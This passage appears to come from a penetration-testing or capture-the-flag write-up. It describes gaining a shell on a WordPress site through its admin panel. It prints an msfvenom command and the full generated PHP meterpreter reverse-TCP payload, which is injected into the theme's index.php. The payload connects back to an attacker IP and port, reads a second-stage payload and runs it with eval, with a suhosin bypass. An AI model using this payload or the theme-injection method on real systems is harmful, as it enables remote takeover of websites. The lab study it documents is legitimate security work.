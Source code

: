 ![wordpress admin panel](/static/img/internal_http_wp_admin.png)

### Popping a shell through wp admin

With access to the admin panel, I decided to generate a reverse-tcp meterpreter shell that could be injected into the theme.

I generated a `php/meterpreter/reverse_tcp` shell using `msfvenom` and backed up the index.php theme template before replacing it with the following generated shellcode.

```bash
root@kali:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.253.137 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1114 bytes
/*<?php /**/ error_reporting(0); $ip = '10.10.253.137'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```
